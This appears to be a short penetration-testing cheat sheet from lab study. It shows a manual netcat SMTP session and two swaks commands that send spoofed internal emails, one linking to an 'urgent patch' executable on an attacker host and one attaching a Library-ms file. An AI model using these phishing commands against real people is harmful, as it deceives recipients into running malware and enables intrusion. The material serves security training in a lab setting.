 ### Netcat interact with smtp server with annoymous login(line by line copy)
```
0.nc -C mail.example.org 25 //Insert a carriage return character (Ctrl+V Ctrl+M)
1.HELO example.com
2.MAIL FROM:bar@example.org
3.RCPT TO:foo@example.com
4.DATA
From: bar@example.org
To: foo@example.com
Subject: Test
Date: Thu, 20 Dec 2012 12:00:00 +0000

Testing
.
5.QUIT
```

### swaks to send email
swaks --to "tharper@victim" --from "rmurray@victim" --ehlo victim --body "Following link is urgent patch link: http://192.168.119.130/patch.exe" --header "Subject:urgent patch" --server 192.168.130.55(email server)

swaks --to jim@relia.com --from maildmz@relia.com --server 192.168.193.189 --attach @/home/kali/Desktop/config.Library-ms --body "Please take a look at the config library file" --header "Subject: Staging Script"
